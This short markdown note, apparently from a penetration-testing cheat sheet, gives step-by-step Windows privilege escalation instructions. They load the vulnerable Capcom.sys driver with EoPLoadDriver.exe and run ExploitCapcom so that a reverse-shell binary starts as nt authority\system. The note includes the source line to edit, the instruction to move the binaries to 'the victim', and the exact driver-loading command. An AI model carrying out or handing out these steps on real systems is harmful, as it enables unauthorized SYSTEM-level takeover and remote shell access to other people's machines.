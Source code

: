 # Loading the driver

Edit the ExploitCapcom.cpp file before compilation. Change the path of the binary to be run as nt authority\system.\
`TCHAR CommandLine[] = TEXT("C:\\Users\\Usersname\\Desktop\\revshell.exe");`

Compile ExploitCapcom.

Transport all binaries (Capcom.sys, EoPLoadDriver.exe, ExploitCapcom.exe) to the victim.

Load the driver with EoPLoadDriver.exe.\
`EoPLoadDriver.exe System\\CurrentControlSet\\MalService C:\\Users\\Username\\Desktop\\Capcom.sys`

Execute ExploitCapcom.exe.
